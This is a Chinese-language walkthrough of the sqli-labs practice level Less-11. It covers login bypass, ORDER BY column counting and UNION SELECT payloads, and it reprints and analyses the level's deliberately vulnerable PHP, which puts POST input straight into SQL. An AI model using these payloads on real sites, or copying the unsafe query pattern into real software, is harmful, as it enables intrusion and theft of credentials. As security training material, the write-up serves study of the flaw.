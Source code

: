 # Less-11  **POST Error Based- String**
TAG：POST注入、字符串注入、万能密码
## 漏洞利用
这是个很典型的post注入，存在万能密码问题  
Payload:```Username:admin' # Password:1111```

![less11_1](images/Less11_1.png)  

万能密码的成功说明可以在Username进行注入  
先探测一下字段数  
Payload:```1' order by 1#```  
Payload:```1' order by 2#```  
Payload:```1' order by 3#```  

![less11_2](images/Less11_2.png)  
通过报错回显可知只存在两个字段  

用联合查询寻找一下回显点  
Payload:```1' union select 1,2#```
![less11_3](images/Less11_3.png)  
寻找到回显点后就可以进行注入获取信息了  
获取数据库名
payload:```1' union select 1,database()#```   

## 源码分析  
### less11源码： 
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
	<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
	<title>Less-11- Error Based- String</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:20px;color:#FFF; font-size:24px; text-align:center"> Welcome&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br></div>

<div  align="center" style="margin:40px 0px 0px 520px;border:20px; background-color:#0CF; text-align:center; width:400px; height:150px;">

<div style="padding-top:10px; font-size:15px;">
 

<!--Form to post the data for sql injections Error based SQL Injection-->
<form action="" name="form1" method="post">
	<div style="margin-top:15px; height:30px;">Username : &nbsp;&nbsp;&nbsp;
	    <input type="text"  name="uname" value=""/>
	</div>  
	<div> Password  : &nbsp;&nbsp;&nbsp;
		<input type="text" name="passwd" value=""/>
	</div></br>
	<div style=" margin-top:9px;margin-left:90px;">
		<input type="submit" name="submit" value="Submit" />
	</div>
</form>

</div></div>

<div style=" margin-top:10px;color:#FFF; font-size:23px; text-align:center">
<font size="6" color="#FFFF00">





<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);

// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))
{
	$uname=$_POST['uname'];
	$passwd=$_POST['passwd'];

	//logging the connection parameters to a file for analysis.
	$fp=fopen('result.txt','a');
	fwrite($fp,'User Name:'.$uname);
	fwrite($fp,'Password:'.$passwd."\n");
	fclose($fp);


	// connectivity 
	@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);

	if($row)
	{
  		//echo '<font color= "#0000ff">';	
  		
  		echo "<br>";
		echo '<font color= "#FFFF00" font size = 4>';
		//echo " You Have successfully logged in\n\n " ;
		echo '<font size="3" color="#0000ff">';	
		echo "<br>";
		echo 'Your Login name:'. $row['username'];
		echo "<br>";
		echo 'Your Password:' .$row['password'];
		echo "<br>";
		echo "</font>";
		echo "<br>";
		echo "<br>";
		echo '<img src="../images/flag.jpg"  />';	
		
  		echo "</font>";
  	}
	else  
	{
		echo '<font color= "#0000ff" font size="3">';
		//echo "Try again looser";
		print_r(mysql_error());
		echo "</br>";
		echo "</br>";
		echo "</br>";
		echo '<img src="../images/slap.jpg" />';	
		echo "</font>";  
	}
}

?>


</font>
</div>
</body>
</html>
```
### 漏洞点分析：
```
$uname=$_POST['uname'];
$passwd=$_POST['passwd'];
```
此页面将通过post方式提交给它的uname和passwd放入变量uname,passwd中并用于页面处理  
```
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```
页面将获取到的参数uname,passwd直接放入sql操作语句中并提交给数据库操作，并没有对参数进行检测与过滤，这将导致万能密码问题和POST注入问题  

```
...
echo 'Your Login name:'. $row['username'];
echo "<br>";
echo 'Your Password:' .$row['password'];
...
```
页面将通过数据库查询语句查询到的信息直接显示了出来，这为注入提供了回显点，可以通过此处直接获取恶意语句返回的信息  
